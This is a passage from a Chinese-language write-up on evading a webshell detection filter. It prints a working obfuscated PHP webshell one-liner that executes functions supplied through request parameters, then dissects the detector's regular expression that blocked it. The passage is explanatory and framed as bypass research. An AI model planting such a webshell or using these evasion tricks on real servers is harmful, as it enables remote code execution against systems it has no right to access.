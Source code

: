 首先，既然过滤了这么多高危函数，那我马上想到了我写的免杀手册的第一个实例，这里面可是一个高危函数都没有的：

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

如果不懂这个 WebShell 的原理，可以看开源项目的 12.1 部分：[https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md](https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md)

![跨越十年 -6.png](assets/1702521390-274a29c3a8b47d8d1669a530f28c849b.png)

没想到第一个 WebShell 就翻车了，这时候的我心理活动：咦不应该啊？  
然后我又把整个正则匹配式看了一遍，找到了关键的正则匹配式：

```perl
'\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)'
```

这个正则表达式要怎么理解呢，我们可以拆开用以下四部分来分析：

```perl
\$                         # 第一部分
[\w-_\'\\[\\]{}\.\$\*/|]+  # 第二部分
(\s|\/\*.*?\*\/)*          # 第三部分
\(.*?\)                    # 第四部分
```

-   第一部分：最开头匹配符号 `$`
-   第二部分：匹配一个或多个字符，这些字符可以是：字母数字下划线、单引号、反斜杠、方括号、花括号、点、`$`符号、星号、斜杠、竖线
-   第三部分：匹配零个或多个空白字符（\\s）或注释（/ / 形式的内容）。
-   第四部分：用非贪婪模式匹配括号内的任意字符

那现在，让我们将这些部分组合起来，可以清楚地理解整个正则表达式的匹配内容：

-   第一部分：匹配以 `$` 符号开头的单词（变量名）
-   第二部分：匹配一个或多个允许的字符，形成变量名的其余部分，比如 `$f` 或者 `$_`
-   第三部分：匹配零个或多个空白字符或注释，应该是防止中间掺杂垃圾字符干扰正则
-   第四部分：匹配括号内的任意字符，相当于不检测括号内的内容

**相当于检测到外部变量想要作为函数执行括号内的内容就拦截，那这条正则匹配式能拦截啥呢？比如：**

![跨越十年 -7.png](assets/1702521390-f43d1e3324e34a1825ec19e95b02cb65.png)
